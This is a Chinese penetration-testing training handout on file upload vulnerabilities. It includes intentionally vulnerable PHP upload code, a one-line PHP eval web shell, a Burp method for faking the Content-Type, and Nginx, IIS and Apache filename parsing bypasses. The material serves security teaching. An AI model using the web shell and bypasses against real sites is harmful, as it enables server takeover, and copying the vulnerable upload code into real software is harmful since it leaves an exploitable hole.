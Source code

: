 # 米斯特白帽培训讲义 漏洞篇 文件上传

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)

> 整理：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0)

我们首先看一下文件上传的流程图。

![](http://ww4.sinaimg.cn/large/841aea59jw1faydcmhhyaj20c809mwek.jpg)

其中，浏览器通过上传页面将文件储存到服务器中。一般这些上传页面都会有限制（比如限制格式为`jpg/gif/png`等等，或者限制文件大小）。

我们所关注的这个上传页面，一旦限制了文件就可能导致我们的渗透测试失败。那么真的完全失败了吗？后面会讲到很多方法，代码本身我们突破不了，但是我们可以用这些方法来绕过限制。

漏洞页面大致分为两种，一种是不限制任何格式，随意上传，这种现在比较少了。另一种是限制`Content-type`，虽然它限制了文件类型，但我们就可以突破它。

## 任意文件上传

看一下这段代码：

```php
<form action="" method="POST" ENCTYPE="multipart/form-data">
    点这里上传文件:
    <input type="file" name="userfile">
    <input type="submit" value="提交">
</form>
<?php
if(!isset($_FILES['userfile']))
    exit;
echo "<pre>";
print_r($_FILES);
echo "</pre>";
$uploaddir='upfile/';
$PreviousFile=$uploaddir.basename(@$_FILES['userfile']['name']);
if(move_uploaded_file(@$_FILES['userfile']['tmp_name'], $PreviousFile))
    echo '上传成功！';
else
    echo '上传失败！';
```

首先是一个文件上传表单，我们可以看到表单中多了一个`enctype`属性，是因为文件上传的格式和之前不一样，不加这个就无法识别了。

然后会检查是否接受到了上传文件，没有接收到就直接结束。之后会打印出文件信息，便于我们调试。之后将上传文件的名称和保存上传文件的目录拼接，将文件从临时目录移动到这个目录。最后输出成功或失败信息。

将其保存为`upfile.php`后，我们首先访问它并尝试上传一个文件。我们把一句话`<?php @eval($_POST['a']) ?>`写入`1.php`，然后把它上传到服务器。

![](http://ww2.sinaimg.cn/large/841aea59jw1faydcsou88j20i805jwen.jpg)

于是我们看到上传成功。

![](http://ww1.sinaimg.cn/large/841aea59jw1faydd7i90hj20hm0bz0t9.jpg)

我们可以看到打印出的文件信息，其中：

+   `userfile`是这个文件在数组中的索引，也是表单中的文件上传输入框的名称。
+   `name`是这个文件的文件名。
+   `type`是这个文件的类型。
+   `tmp_name`是这个文件的临时完整路径。
+   `error`是错误代码。
+   `size`是文件大小。

之后，尝试直接访问所上传的文件，发现访问成功。

![](http://ww2.sinaimg.cn/large/841aea59jw1faydde1z61j20ht065q30.jpg)

然后我们就可以拿菜刀连接了。

![](http://ww1.sinaimg.cn/large/841aea59jw1fayddj2gysj20se0fj3zk.jpg)

我们可以看到连接成功，那么我们就成功地 GetShell 了。

## 存在限制

如果`upfile.php`的内容变成这样：

```php
<form action="" method="POST" enctype="multipart/form-data">
    点这里上传文件:
    <input type="file" name="userfile">
    <input type="submit" value="提交">
</form>
<?php
if(!isset($_FILES['userfile']))
    exit;
echo "<pre>";
print_r($_FILES);
echo "</pre>";
if(@$_FILES['userfile']['type'] != "image/gif"){
        echo "对不起，我们只允许上传GIF格式的图片!!";
        exit;
}
$uploaddir='upfile/';
$PreviousFile=$uploaddir.basename(@$_FILES['userfile']['name']);
if(move_uploaded_file(@$_FILES['userfile']['tmp_name'], $PreviousFile))
    echo "上传成功！";
else
    echo "上传失败！";
```

这段代码多出来的东西就是，它首先验证了文件类型，如果是`gif`则放过，不是则拦截。那么根据`multipart`编码类型，`type`这个东西在浏览器生成之后，是可以改的。我们可以通过 Burp 拦截并修改这个值。

首先我们打开 Burp，配置代理，访问`upfile.php`。之后开启拦截模式并上传一个文件：


我们拦截之后，找到`Content-Type`，发现他是`application/oct-stream`，我们把它改成`image/gif`，之后放行（可能需要多次，在我这里是这样）。

![](http://ww1.sinaimg.cn/large/841aea59jw1fayddqscl3j20ok0j8tan.jpg)

![](http://ww2.sinaimg.cn/large/841aea59jw1fayde2a2rej20ok0j8q4v.jpg)

然后我们可以看到上传成功，上传目录中出现了我们上传的文件。

![](http://ww4.sinaimg.cn/large/841aea59jw1fayde6e6gtj20vs0o6wfh.jpg)

![](http://ww1.sinaimg.cn/large/841aea59jw1faydee1rguj20r20fv74y.jpg)

## Nginx 解析漏洞

如果服务器是 Nginx，我们可以直接上传图片格式，利用解析漏洞拿 Webshell。漏洞成因是，由于 Nginx 部分版本程序自身的漏洞，导致可以解析并执行非脚本文件。

假设存在漏洞的站点上有一张图片，URL 地址为：

```
www.xxx.com/logo.jpg
```

我们正常访问时，Nginx 会把它当做非脚本，直接读取并传给客户端。但是如果我们这样访问：

```
www.xxx.com/logo.jpg/a.php
```

他就会把`logo.jpg`当做 PHP 文件来执行。或者是

```
www.xxx.com/logo.jpg%00.php
```

也会导致图片执行，这个是 7 月中旬爆出的解析漏洞。

要利用这个漏洞，我们可以随便找一张图片，在里面插入一句话：

![](http://ww1.sinaimg.cn/large/841aea59jw1fayf99bpp3j21e00u9ah4.jpg)

我们将其上传之后，访问图片的 URL，确认上传成功。

![](http://ww2.sinaimg.cn/large/841aea59jw1fayf9fpguwj20lg093t8w.jpg)

然后我们利用该解析漏洞构造 URL，发现也能够成功访问，也能拿菜刀来连接。

![](http://ww2.sinaimg.cn/large/841aea59jw1fayf9kn7juj21ds08edhg.jpg)

![](http://ww2.sinaimg.cn/large/841aea59jw1fayf9ncmg7j20zj0jd0ty.jpg)

## IIS 解析漏洞

IIS 5.x/6.0 主要存在两个解析漏洞，第一个是目录解析：

```
/a.asp/b.jpg
```

其中`a.asp`是目录，`b.jpg`是真实存在的文件，那么`b.jpg`会当做`asp`文件来执行。这个漏洞需要我们能够创建目录。

第二个是文件解析，也就是分号截断：

```
a.asp;.jpg
```

这个文件的扩展名在上传时是`jpg`，但是上传之后，IIS 会把它当做`asp`文件来解析。

另外，在IIS 中，可执行脚本的扩展名除了`asp`之外，还有`asa`、`cdx`、`cer`。许多网站往往就过滤不全，一定要重视！！

## Apache 解析漏洞

Apache 的解析漏洞比较有意思，它从右到左解析扩展名，如果碰到不认识的扩展名，则继续往下解析。比如我们上传`a.php.x1.x2.x3`，它按照`x3 x2 x1 php`的顺序解析扩展名，但是他不认识后面三个，所以只能将其解析为`php`。但在文件上传时，文件的扩展名一直是`x3`，所以可以绕过一些校验。

## 参考

+   [文件解析漏洞总结](http://blog.csdn.net/wizardforcel/article/details/50695896)
